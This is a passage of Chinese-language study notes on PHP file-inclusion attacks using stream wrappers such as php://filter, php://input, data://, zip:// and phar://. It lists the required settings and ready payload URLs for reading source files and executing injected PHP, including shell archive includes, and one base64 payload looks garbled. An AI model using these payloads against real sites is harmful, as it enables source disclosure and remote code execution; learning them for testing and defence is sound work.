   ```
  - 3.使用方法:file://文件的绝对路径和文件名
  - 4.举例:[?path=file://c:/windows/system32/drivers/etc/hosts]
  - ![image-20240908162618540](./assets/image-20240908162618540.png)

- `php://filter`

  - 1.用途:常用于读取文件/源码
  - 2.使用条件:`allow_url_fopen:off/on`,`allow_url_fopen:off/on`两个均为`off`情况下是可以使用的
  - 3.使用:[?path=php://filter/read=convert.base64-encode/resource=文件.php]
  - 4.注意:通过指定末尾的文件,可以读取base64`加密`后的文件源码,之后再base64`解码`.虽然不能直接获取到shell,但是能读取`敏感信息`
  - php://filter协议和file://协议的区别:`file`协议`只能`使用`绝对路径`,`fileter`协议相对绝对`均可`
  - ![image-20240908163204755](./assets/image-20240908163204755.png)

- `php://input`

  - 用途:可以访问请求的原始数据的只读流,将`post请求中的数据作为php代码执行`
  - 使用条件:allow_url_fopen:off/on,allow_url_include:`on`
  - 使用方法:?file=php://input
  - [POST]:<?php phpinfo()?> (执行post data中的内容)

  ![image-20240907163422325](./assets/image-20240907163422325-1725856576036-14.png)

- `data://`

  - 用途:执行接收到的数据中包含的php代码
  - 使用条件:allow_url_fopen:`on`,allow_url_include=`on`
  - 使用方法:?file=data:text/plain,<?php phpinfo();?>
  - --------?file=data:text/plain;base64,PD9waHA工程GhwaWmbygpPz4=
  - --------?file=data://text/plain,<?php phpinfo();?>
  - http://192.168.1.1/include.php?file=data://text/plain,<?=phpinfo();?>

  ![image-20240908171429298](./assets/image-20240908171429298-1725856558979-12.png)

- `zip://`

  - 用途:读取压缩包内的文件(绝对/相对路径)如果包含php代码直接执行
  - 使用条件:allow_url_fopen:off   allow_url_include:off
  - 使用方法:zip://archive.zip#dir/file.txt
  - --------zip://[压缩文件绝对/相对路径]#[压缩文件内的子文件名]
  - --------?file=zip://D:/www/file.zip%23phpcode.txt
  - --------?file=zip://D:/www/file.jpg%23phpcode.txt
  - http://192.168.1.1/include.php?file=zip://shell.zip%23shell.txt

- `phar://`

  - 用途:读取压缩文件内的文件(相对/绝对路径)
  - 使用条件:allow_url_fopen:off     allow_url_include:off
  - 使用方法:?file=phar://D:/phpstudy/www/fileinclude/test.zip/phpinfo.txt
  - --------?file=phar://test.zip/phpinfo.txt
  - http://192.168.1.1/include.php?file=phar://shell.zip/shell.txt

  ![image-20240908172948858](./assets/image-20240908172948858.png)

- `compress.bzip2://`

  - 用途:读取压缩包内的文件(相对/绝对路径)	
  - 使用条件:allow_url_fopen:off    allow_url_include:off
  - 使用方法:?file=compress.bzip2://shell.txt.bz2
  - Bzip2 -k shell.txt
  - http://192.168.1.1/include.php?file=compress.bzip2://shell.txt.bz2

- `compress.zlip://`

  ```